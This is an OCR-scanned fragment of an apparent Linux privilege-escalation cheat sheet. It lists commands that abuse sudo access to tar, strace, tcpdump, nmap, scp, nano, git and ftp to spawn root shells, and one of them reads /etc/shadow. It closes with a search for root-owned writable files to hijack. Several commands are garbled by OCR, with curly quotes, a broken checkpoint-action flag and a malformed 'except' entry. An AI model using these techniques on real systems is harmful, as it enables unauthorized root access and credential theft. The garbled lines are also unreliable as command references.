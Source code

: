> $ sudo tar cf /dev/null testfile --checkpoint=1 — checkpointaction=exec=/bin/bash

strace
------

> $ sudo strace -o/dev/null /bin/bash

tcpdump
-------

> $ echo $’id\\ncat /etc/shadow’ > /tmp/.shell  
> $ chmod +x /tmp/.shell  
> $ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root

nmap
----

> $ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse  
> $ sudo nmap --script=/tmp/shell.nse
> 
> Another way below:  
> ($ sudo nmap --interactive  
> nmap> !sh)

scp
---

> $ sudo scp -S /path/to/your/script x y

except
------

> $ sudo except spawn sh then sh

nano
----

> $ sudo nano -S /bin/bash

git
---

> $ sudo git help status  
> : !/bin/bash

gdb/ftp
-------

> $ sudo ftp  
> : !/bin/sh

\\x05 Find any writable file owned by root
==========================================

Please use the following command to find any writable files owned by root. You might be able to see the script file and add the needed command for your privilege escalation.

> $ find / -perm -002 -user root -type f -not-path “/proc/\*” 2>/dev/null
